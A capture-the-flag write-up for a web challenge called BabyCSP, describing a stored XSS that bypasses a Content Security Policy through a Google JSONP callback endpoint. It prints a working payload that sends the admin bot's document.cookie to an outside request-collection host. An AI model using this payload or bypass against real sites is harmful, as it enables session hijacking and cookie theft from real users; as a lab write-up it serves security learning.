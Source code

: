 # BabyCSP writeup - 50pts

## What we have
The chall provide us with a link to a very basic website:

![Screenshot of the challenge website](Screenshots/1.jpg)

We can create posts, view them and report them to an admin. Nice!

On the top of the website, we can see the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) rules used:

    default-src 'self'; script-src 'self' *.google.com; connect-src *

Maybe we can do an XSS and steal the bot/admin cookies? But first, we need to discover how to bypass CSP in order to execute arbitrary javascript on clients.

## CSP Bypass
First of all, I tried to analyze the chall CSP rules with the [Google CSP Evaluator Tool](https://csp-evaluator.withgoogle.com/):

![The Google CSP Evaluetor Tool Analysis](Screenshots/2.jpg)

Seems good: we can use a JSONP endpoint to bypass CSP.

Searching on the web, I found a list of endpoints on *.google.com [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt).

I chose to use this endpoint: https://accounts.google.com/o/oauth2/revoke?callback=YOUR-JAVASCRIPT-HERE

So, now, we can try to inject javascript including this link as a script inside posts.

## Stealing admin cookies
I wrote, just to try, the following post:
`<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>` and a nice popup appeared when I opened the post.

Someone here forgot to sanitize inputs :P

![XSS executed!](Screenshots/3.jpg)

I then prepared a [RequestBin](https://requestbin.com) to receive admin cookies, I created a post with the following payload (everything after "callback=" is urlencoded, just to be sure):

    <script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href%3D%27https%3A%2F%2Fen5pzvwnw7lrc.x.pipedream.net%3Fa%3D%27%2Bdocument.cookie%3B"></script>

And I reported it to the admin.

Fewer minutes later, I received this request directly containing the flag:
![Screenshot of the request received, containing the flag](Screenshots/4.jpg)
